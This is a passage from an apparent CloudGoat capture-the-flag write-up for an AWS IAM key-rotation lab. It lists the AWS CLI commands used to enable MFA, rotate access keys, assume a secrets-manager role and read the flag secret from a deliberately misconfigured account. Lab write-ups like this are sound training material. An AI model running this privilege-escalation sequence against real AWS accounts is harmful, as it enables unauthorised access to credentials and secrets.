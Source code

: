 First, we create a virtual MFA device using `aws iam create-virtual-mfa-device --virtual-mfa-device-name admin-virt-mfa --outfile mfa-qr.png --profile iam_key_rotation --bootstrap-method QRCodePNG`. That will save a png of a QR code to your working directory. 

Open up your phone and use an authenticator app to scan that QR. It should set up pretty quickly. Once done, you'll need to grab two consecutive codes from it. Once you have them replace them here 

```bash
aws iam enable-mfa-device --user-name admin_cgidf88xs8i2ur --serial-number arn:aws:iam::381491899745:mfa/admin-virt-mfa --authentication-code1 CODE1GOESHERE --authentication-code2 CODE2GOESHERE --profile iam_key_rotation
```

That will set up our mfa!

# Access the secret role

We'll need to do a refresh of our keys according to chat, so delete one of the access keys using the same command as earlier (diffferent key though), `aws iam delete-access-key --profile iam_key_rotation --user-name admin_cgidf88xs8i2ur --access-key-id AKIAVRUVQNVQ3RMHLPPL`. 

Make a new key using `aws iam create-access-key --profile iam_key_rotation --user-name admin_cgidf88xs8i2ur`. 

And assume a role (make sure to put a valid token) using `aws sts assume-role --role-arn arn:aws:iam::381491899745:role/cg_secretsmanager_cgidf88xs8i2ur --role-session-name magic --serial-number arn:aws:iam::381491899745:mfa/admin-virt-mfa --token-code VALIDTOKENHERE --profile admin`

And you'll have the final set of credentials!

# Grab the secret

Configure the role using `aws configure --profile iam_key_role` and pass in the new values. You'll need to pass in the session token manually using `aws configure set profile.iam_key_role.aws_session_token TOKENGOESHERE`. Once you're in, you can use `aws sts get-caller-identity --profile iam_key_role` to verify your in. And boom! 

Now, I checked the [documentation](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-secret-value.html) for the precise command to find the secret. First list the secrests there using `aws secretsmanager list-secrets --profile iam_key_role`. 

Then grab the flag using: `aws secretsmanager get-secret-value --profile iam_key_role --secret-id arn:aws:secretsmanager:us-east-1:381491899745:cg_secret_cgidf88xs8i2ur-jghZnP`!


# Conclusion

This was a one of the longer labs i've done on cloudgoat. We had to enumerate our environment well and find the misconfigured IAM policies about tags. We had to apply tags, delete and make new keys (even use MFA!) to finally get access to the secret role to grab our flag. A fun lab highlighting the improtance of configuring IAM policies properly. 

*Don't forget to destroy your lab after!*
